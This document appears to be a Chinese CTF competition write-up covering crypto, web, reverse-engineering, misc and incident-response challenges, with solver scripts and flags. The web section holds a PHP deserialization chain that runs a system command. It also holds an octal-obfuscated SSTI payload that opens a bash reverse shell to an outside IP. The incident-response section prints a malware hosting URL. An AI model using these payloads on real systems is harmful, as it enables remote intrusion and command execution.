——Y0ungK1ng

### 密码

#### 密码是什么？可以拿来吃嘛🤓

``` python
import base64

  
symbols = "ABCDEFGHIJKLMNOPQRSTUVWXYZ234567"

  

# 构造编码和解码映射

codes = [format(i, '05b').replace('0', 'a').replace('1', 'b') for i in range(32)]

enc_map = dict(zip(symbols, codes))

dec_map = {code: sym for sym, code in enc_map.items()}

  

def fix_base32_padding(s):

    """修复 Base32 的填充"""

    return s + "=" * ((8 - len(s) % 8) % 8)

  

def decrypt(ciphertext):

    """解密函数"""

    # 将密文分割为每 5 个字符一组

    chunks = [ciphertext[i:i+5] for i in range(0, len(ciphertext), 5)]

    # 将每组字符映射回 Base32 字符

    b32 = ''.join(dec_map[ch] for ch in chunks)

    # 修复 Base32 填充并解码

    b32_padded = fix_base32_padding(b32)

    decoded = base64.b32decode(b32_padded).decode('utf-8')

    return decoded

  

# 示例密文

ciphertext = "abbaabbaabbabbaaabbaaaababbaabbbabbbbabbbbbabaabbaaaaabbbabbbbabbbbaabaababbbaaabaaabbabbbbaabbbbaabbaabbabbbbabbbbaabbabaabbbabbabaababababbbbbbbbaabaababbbaaabaaabbabbbbabaabbaaaaabbbabbbbabbbbaabbabaabbbabbabaababbbbaabbbbaabbaabbabbbbababbbbbabaa"

  

# 解密

plaintext = decrypt(ciphertext)

print("解密结果:", plaintext)
```


#### 你们密码手都会RSA嘛😅

``` python
from Crypto.Util.number import bytes_to_long, long_to_bytes

import gmpy2

  

def read_public_keys(filename):

    public_keys = []

    with open(filename, 'r') as f:

        for line in f:

            N, e = line.strip().split(',')

            public_keys.append((int(N), int(e)))

    return public_keys

  

def parse_ciphertexts(filename, public_keys):

    data = open(filename, 'rb').read()

    ciphertexts = []

    pos = 0

    for N, e in public_keys:

        max_len = (N.bit_length() + 7) // 8

        found = False

        # 尝试从max_len开始递减，找到合适的长度

        for l in range(max_len, 0, -1):

            if pos + l > len(data):

                continue

            current_bytes = data[pos:pos+l]

            c = bytes_to_long(current_bytes)

            if c < N:

                ciphertexts.append(c)

                pos += l

                found = True

                break

        if not found:

            raise ValueError(f"无法解析密文，位置: {pos}")

    return ciphertexts

  

def crt(moduli, remainders):

    from functools import reduce

    def extended_gcd(a, b):

        if b == 0:

            return (a, 1, 0)

        else:

            g, x, y = extended_gcd(b, a % b)

            return (g, y, x - (a // b) * y)

    x = 0

    mod = 1

    for (m, r) in zip(moduli, remainders):

        g, p, q = extended_gcd(mod, m)

        if (r - x) % g != 0:

            return (0, 0)  # 无解

        lcm = mod // g * m

        tmp = (( (r - x) // g * p ) % (m // g))

        x = x + mod * tmp

        mod = lcm

    return (x % mod, mod)

  

def main():

    # 读取公钥和密文

    public_keys = read_public_keys('public_keys.txt')

    ciphertexts = parse_ciphertexts('ciphertexts.bin', public_keys)

    # 选择后8个标准模数中的三个（例如索引2,3,4）

    selected_indices = [2, 3, 4]

    moduli = [public_keys[i][0] for i in selected_indices]

    remainders = [ciphertexts[i] for i in selected_indices]

    # 应用中国剩余定理

    C, M = crt(moduli, remainders)

    if M == 0:

        print("CRT失败，模数可能不互质")

        return

    # 计算立方根

    m, is_perfect = gmpy2.iroot(C, 3)

    if is_perfect:

        print("解密成功！Flag为:")

        print(long_to_bytes(m).decode())

    else:

        print("无法找到精确的立方根，尝试其他模数组")

  

if __name__ == '__main__':

    main()
```

#### 你们密码手都会数学嘛😅
``` python
from Crypto.Util.number import long_to_bytes

import gmpy2

  

def solve_first():

    gift1 = 1062621764326043928599215181589114049655998867202334617868636678020688641011101849493056829020993965377126290518969204404544424521537347024736825061332617807030856752926044488150388858647266813089331604272769009662971485196348708150699176689932088548438305237173058596718153571475169797511042596663753875701179094656235285083398833047409753213719170514196763724993831089819508003220159236323382970910049681348130977322657388718812531878007572061862347923307213911

    gift2 = 1173938252094761233745251196369934949592464666119990176591715543373901089449349098451843345321323373506602019255589863115477910994777292822592852142574464624636364193318719650676881168501776948430987139276881142403079760270590149659113143801472968028854665893744226431060645800889764920341364348831037773991452930818539555678887799162479413641461128094582908853301519393490291563946769512775374168685089863361496942865691380823431808188475966078069111763411726036

    n = 1180584750931834041381604896014517936961782757902704510421113088454690868257782042875465549141029620211135920714779307335210557153993882322493398985382711278864597317067117525968670935685707274819408750698479899674328245870790085912028089054433534207001389205816907091928909886895153738678657306792703753185680671776623195830893006786280540216498037796875160780863602634603064284455377777029048569138658056879836853790682653887053146085032912960335032743967195681

    c = 596346053942740181881801264550240163961540834411835652369950711892596864211104625961785063684390373240204263113770387679298979411132855038344853558551770207581238408601713570663669550574697268879851338692373085517108418316251807992331930187530617718770469768532326618463623030588950897442093500782145350581833684300552658781506045017486235925226082295044198993690504050985758202849447540274519152805810295989512276341928226418237298543608399597272027376673419666

    e = 2 * 65537

  

    sum_gifts = gift1 + gift2

    p = gmpy2.gcd(sum_gifts, n)

    assert p != 1 and n % p == 0

    n1 = n // p  # q * r

  

    x = (pow(p, e, n1) - (gift1 % n1)) % n1

    q = gmpy2.gcd(x, n1)

    assert q != 1 and n1 % q == 0

    r = n1 // q

  

    assert all(gmpy2.is_prime(prime) for prime in (p, q, r))

  

    phi = (p - 1) * (q - 1) * (r - 1)

    g = gmpy2.gcd(e, phi)

  

    if g == 1:

        d = gmpy2.invert(e, phi)

        m = pow(c, int(d), n)

    else:

        e_prime = e // g

        phi_prime = phi // g

        d_prime = gmpy2.invert(e_prime, phi_prime)

        m_power = pow(c, d_prime, n)

        root, is_root = gmpy2.iroot(m_power, g)

        if is_root:

            m = int(root)

        else:

            def tonelli(n_s, p_s):

                if gmpy2.legendre(n_s, p_s) != 1:

                    return []

                if p_s % 4 == 3:

                    x = pow(n_s, (p_s + 1) // 4, p_s)

                    return [x, p_s - x]

                return []

            roots_p = tonelli(m_power % p, p)

            roots_q = tonelli(m_power % q, q)

            roots_r = tonelli(m_power % r, r)

            from itertools import product

            for m_p, m_q, m_r in product(roots_p, roots_q, roots_r):

                m_candidate, _ = gmpy2.crt([p, q, r], [m_p, m_q, m_r])

                if pow(m_candidate, e, n) == c:

                    m = m_candidate

                    break

            else:

                print("No valid root found")

                return

  

    flag_bytes = long_to_bytes(m)

    try:

        print("Flag1:", flag_bytes.decode())

    except UnicodeDecodeError:

        print("Flag1 (hex):", flag_bytes.hex())

  

def solve_second():

    n = 63691679181427541012277371051879983466495504001047544827620413894790131914938235904040008668680960632668985483555175774656045077790161005262978982007143593041391787472267010093387954963543569609847746804452347296955076240178628764825661707799906166589219478425550518590841069687272450587029938783415592671157

    gift1 = 32765133509435168056317772382965662113589120223573165793105513674732717888352772881762450075214398462475171105226896567763898089398115466249568313936992301410993389747859842633746729850371254244839774215578627237764702945931190035756037437678516583545399109949933346384415207953175868839826102139507164491582

    gift2 = 32765133509435168056317772382965662113589120223573165793105513674732717888352772881762450075214398462475171105226896567763898089398115466249568313936992294182956773392732301570792038065499049594092289529973301792080716614585339992883599987323788352488775562748659408649359479744933362019906856415136914811335

    c = 50325140665543328433453073775373103126680158407465370863106718550870033536220431713742233023074697703570373924433326269821348701989151449444330044638037438155582264121493517335500847139014774523076537910923662296372166927485079435597913118933424399868168042413991878066531945463304790977178116020584231427604

    e = 65537

  

    delta = gift1 - gift2

    q = gmpy2.gcd(delta, n)

    assert q != 1 and n % q == 0

    p = n // q

  

    phi = (p - 1) * (q - 1)

    d = gmpy2.invert(e, phi)

    m = pow(c, d, n)

    print("Flag2:", long_to_bytes(m).decode())

  

if __name__ == "__main__":

    solve_first()

    solve_second()
```

Flag1: flag{can_listening_to_reverse_cl
Flag2: ock_10000_times_go_back_in_time}


``` python
from Crypto.Util.number import bytes_to_long, long_to_bytes

import gmpy2

  

def read_public_keys(filename):

    public_keys = []

    with open(filename, 'r') as f:

        for line in f:

            N, e = line.strip().split(',')

            public_keys.append((int(N), int(e)))

    return public_keys

  

def parse_ciphertexts(filename, public_keys):

    data = open(filename, 'rb').read()

    ciphertexts = []

    pos = 0

    for N, e in public_keys:

        max_len = (N.bit_length() + 7) // 8

        found = False

        # 尝试从max_len开始递减，找到合适的长度

        for l in range(max_len, 0, -1):

            if pos + l > len(data):

                continue

            current_bytes = data[pos:pos+l]

            c = bytes_to_long(current_bytes)

            if c < N:

                ciphertexts.append(c)

                pos += l

                found = True

                break

        if not found:

            raise ValueError(f"无法解析密文，位置: {pos}")

    return ciphertexts

  

def crt(moduli, remainders):

    from functools import reduce

    def extended_gcd(a, b):

        if b == 0:

            return (a, 1, 0)

        else:

            g, x, y = extended_gcd(b, a % b)

            return (g, y, x - (a // b) * y)

    x = 0

    mod = 1

    for (m, r) in zip(moduli, remainders):

        g, p, q = extended_gcd(mod, m)

        if (r - x) % g != 0:

            return (0, 0)  # 无解

        lcm = mod // g * m

        tmp = (( (r - x) // g * p ) % (m // g))

        x = x + mod * tmp

        mod = lcm

    return (x % mod, mod)

  

def main():

    # 读取公钥和密文

    public_keys = read_public_keys('public_keys.txt')

    ciphertexts = parse_ciphertexts('ciphertexts.bin', public_keys)

    # 选择后8个标准模数中的三个（例如索引2,3,4）

    selected_indices = [2, 3, 4]

    moduli = [public_keys[i][0] for i in selected_indices]

    remainders = [ciphertexts[i] for i in selected_indices]

    # 应用中国剩余定理

    C, M = crt(moduli, remainders)

    if M == 0:

        print("CRT失败，模数可能不互质")

        return

    # 计算立方根

    m, is_perfect = gmpy2.iroot(C, 3)

    if is_perfect:

        print("解密成功！Flag为:")

        print(long_to_bytes(m).decode())

    else:

        print("无法找到精确的立方根，尝试其他模数组")

  

if __name__ == '__main__':

    main()
```
### web

#### 不会pop你算什么php

``` php
<?php

class yiyi{

    public $Do;

    public $You;

    public $love = 'system("tac /maybe_1_am_flag");';

    public $web;

}

  

class whoami{

    private $execurise;

    public $lead;

    public $hansome;

}

  

class ZJGSU{

    public $girl;

    public $friend;

}

  

class ZJPC{

    private $lover;

    public $forever;

}

  

// 构造对象链

$d = new whoami();

$d->hansome = new ZJPC();

  

$c = new ZJGSU();

$c->girl = $d;

  

$b = new whoami();

$b->lead = $c;

  

$a = new yiyi();

$a->You = $b;

  

// 设置关键私有属性

$reflect = new ReflectionClass($d);

$prop = $reflect->getProperty('execurise');

$prop->setAccessible(true);

$prop->setValue($d, 'man!');

  

// 连接调用链

$d->hansome->forever = new ZJGSU();

$d->hansome->forever->friend = new yiyi();

  

echo base64_encode(serialize($a));
```

#### calc++

```
[[str][0]for[ᵒs.environ['BASH\137FUNC\137echo%%']]in[['\50\51\40\173\40\142\141\163\150\40\55\151\40\76\46\40\57\144\145\166\57\164\143\160\57\64\67\56\61\62\60\56\63\60\56\62\65\60\57\61\62\63\61\61\40\60\76\46\61\73\40\175']]]
```

相对原题过滤了\x
直接换\八进制即可，ssti

之后反弹成功后，env得到flag


### 逆向

#### 逆向的本质

``` python
str = "}detacitsihpos_3b_ot_tub_llik_dn@_thg1f_ot_ton_s1_esrever_f0_ecn3sse_ehT{galf"

str = str[::-1]

print("flag:", str)
```

#### Unpack



flag{Upx_1s_n0t_d1fficult}


#### LoginSystem



``` python
# -*- coding: utf-8 -*-

BASE64_TABLE = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

INDEX_TABLE = {c: i for i, c in enumerate(BASE64_TABLE)}

  

def custom_base64_decode(s: str) -> bytes:

    """

    反向实现你给的 base64encode.encode() 算法。

    每 4 chars -> 最多 3 bytes。

    """

    out = bytearray()

    for i in range(0, len(s), 4):

        chunk = s[i:i+4]

        vals = [INDEX_TABLE.get(c, 0) for c in chunk]

        # b0 来自 vals[0]<<2 | vals[2]>>4

        b0 = ((vals[0] << 2) & 0xFF) | (vals[2] >> 4)

        out.append(b0)

        # b1: (vals[2]&0xF)<<4 | vals[1]>>2

        if chunk[2] != '=':

            b1 = (((vals[2] & 0xF) << 4) & 0xFF) | (vals[1] >> 2)

            out.append(b1)

        # b2: (vals[1]&0x3)<<6 | vals[3]

        if chunk[3] != '=':

            b2 = (((vals[1] & 0x3) << 6) & 0xFF) | vals[3]

            out.append(b2)

    return bytes(out)

  

def rc4_variant_keystream(key: bytes, length: int) -> bytearray:

    """

    根据 rc4encode.encrypt 的 KSA + PRGA 生成 keystream，

    这里只生成 keystream，而不做加密／解密。

    """

    # KSA

    S = list(range(256))

    j = 0

    for i in range(256):

        j = (S[i] + j + key[i % len(key)]) & 0xFF

        S[i], S[j] = S[j], S[i]

  

    # PRGA

    i = 0

    j = 0

    keystream = bytearray(length)

    for k in range(length):

        i = (i + 1) & 0xFF

        j = (S[i] + j) & 0xFF

        S[i], S[j] = S[j], S[i]

        # 你的实现里是 data[k] = (data[k] + S[...]) % 256，

        # 因此 keystream[k] = S[(S[i]+S[j])%256]

        ks_val = S[(S[i] + S[j]) & 0xFF]

        keystream[k] = ks_val

    return keystream

  

def decrypt(data: bytes, key: bytes) -> bytes:

    """

    逆向 rc4encode.encrypt：由于密文 c = (plain + keystream) mod256，

    所以 plain = (c - keystream) mod256。

    """

    ks = rc4_variant_keystream(key, len(data))

    plain = bytearray(len(data))

    for idx, c in enumerate(data):

        # (c - ks) mod 256

        plain[idx] = (c - ks[idx]) & 0xFF

    return bytes(plain)

  

# —— 应用到你的参数 ——

string1 = "aFj5YITya42wdRzuZIHwM5Wk"

data_bytes = bytes((b if b >= 0 else b+256) for b in [

    14, 50, -82, 75, -125, 55, -112, 85,

    99, -56, 97, -82, 69, 61, -2, -113, -99, 48

])

  

# 1. 解出用户名明文字节 & ASCII

user_bytes = custom_base64_decode(string1)

try:

    user_str = user_bytes.decode('ascii')

except UnicodeDecodeError:

    user_str = repr(user_bytes)

print("用户名 (ASCII)：", user_str)

  

# 2. 解出密码明文字节

pwd_bytes = decrypt(data_bytes, user_bytes)

print("密码明文字节 (hex)：", pwd_bytes.hex())
```
### misc

#### Chain_Checkin

按照提示细心做即可










#### Maze Hunter

``` python
import base64


symbols = "ABCDEFGHIJKLMNOPQRSTUVWXYZ234567"


codes = [format(i, '05b').replace('0', 'a').replace('1', 'b') for i in range(32)]

enc_map = dict(zip(symbols, codes))

dec_map = {code: sym for sym, code in enc_map.items()}

  

def fix_base32_padding(s):


    return s + "=" * ((8 - len(s) % 8) % 8)

  

def decrypt(ciphertext):

    chunks = [ciphertext[i:i+5] for i in range(0, len(ciphertext), 5)]


    b32 = ''.join(dec_map[ch] for ch in chunks)


    b32_padded = fix_base32_padding(b32)

    decoded = base64.b32decode(b32_padded).decode('utf-8')

    return decoded

  

ciphertext = "abbaabbaabbabbaaabbaaaababbaabbbabbbbabbbbbabaabbaaaaabbbabbbbabbbbaabaababbbaaabaaabbabbbbaabbbbaabbaabbabbbbabbbbaabbabaabbbabbabaababababbbbbbbbaabaababbbaaabaaabbabbbbabaabbaaaaabbbabbbbabbbbaabbabaabbbabbabaababbbbaabbbbaabbaabbabbbbababbbbbabaa"

  
plaintext = decrypt(ciphertext)

print("解密结果:", plaintext)
```


``` python
# 定义字符矩阵

matrix = [

    list("f l a W o w _ t h i 1 s L 3 y u L d c E".split()),

    list("5 b g { W W M k F s _ _ c j M I G N G i".split()),

    list("t T O g J M e m F G m a 3 O k U L 1 M c".split()),

    list("b k I U 5 X J l 5 g D N w P w 7 r 5 q y".split()),

    list("b a w M n 4 a 5 M m A _ e I N i p Q F 3".split()),

    list("N 6 L Z C K Q t k a 4 F k q 8 D b 1 T h".split()),

    list("e 6 a 3 b 0 Q z 1 z z z F 0 p D v Y 3 6".split()),

    list("n 6 4 P V E a z i o S 2 l O V A U R A 9".split()),

    list("t 4 Y 7 x T K } n g S T y O o Q I c P W".split()),

    list("K T W l S p g e 2 _ a R Q D L q M 8 J p".split()),

    list("M 5 O E e M n H a M D S 7 m C Z g T a F".split()),

    list("M Z 9 X Z 3 p M j 4 M h M M n 4 V y A 9".split()),

    list("l Q M T Z P c o q 5 B t x 5 n R D y e R".split()),

    list("k j I c K X 5 o 4 Z 7 0 Y u q R f R m 7".split()),

    list("S 6 z x 0 u h z J S x 1 8 m e Y x M T X".split()),

    list("4 M w e p N u v o 5 J 6 Y f Z r f 5 m z".split()),

    list("a K h s n l i p M f J 3 o z F 8 7 s j K".split()),

    list("N X w w 1 z f D e b k L J G q h Y X T O".split()),

    list("j f N 7 p 1 x 9 S F d Z q o D 2 N j 1 P".split()),

    list("w D o A h t P 4 B t N G X Z Z a q m N p".split())

]

  

# 路径规则

path = [2, 2, 3, 2, 1, 2, 2, 2, 2, 2, 2, 3, 2, 1, 2, 3, 3, 3, 3, 4, 4, 3, 3, 4, 3, 3, 2, 3, 3, 4, 1, 4, 1]

  

# 起始位置

x, y = 0, 0  # 从左上角字符 "f" 开始

flag = []

  

# 遍历路径

for step in path:

    if step == 1:  # 向上

        x -= 1

    elif step == 2:  # 向右

        y += 1

    elif step == 3:  # 向下

        x += 1

    elif step == 4:  # 向左

        y -= 1

  

    # 确保不越界

    x = max(0, min(x, len(matrix) - 1))

    y = max(0, min(y, len(matrix[0]) - 1))

  

    # 添加当前字符到 flag

    flag.append(matrix[x][y])

  

# 输出结果

print("flag:", "".join(flag))
```


### 应急响应

#### 应急响应_main
看注册表





#### 本题为 "应急响应_main" 子题目，在感染前受害者收到了一份可疑的邮件，这份可疑的邮件是从那个邮件地址发出的，flag 格式为: `flag{example@qq.com}`



#### 本题为 "应急响应_main" 子题目，感染主机的恶意文件的托管地址是什么，flag 格式为 : `flag{https://baidu.com/robots.txt}`

链接就是
http://43.135.7.226:8089/StarCTF2025.png.zip


#### 本题为 "应急响应_main" 子题目，在受害者执行恶意程序后，在浏览器中搜索了什么，flag 格式为 : `flag{如何炸掉浙工商}`




#### 本题为 "应急响应_main" 子题目，所执行的恶意程序路径，flag 格式为 : `flag{C:\inetpub\www\html\shell.php}`


最近打开文件

#### 本题为 "应急响应_main" 子题目，恶意程序的回连地址，flag 格式为 : `flag{127.0.0.1:7890}`




### pwn


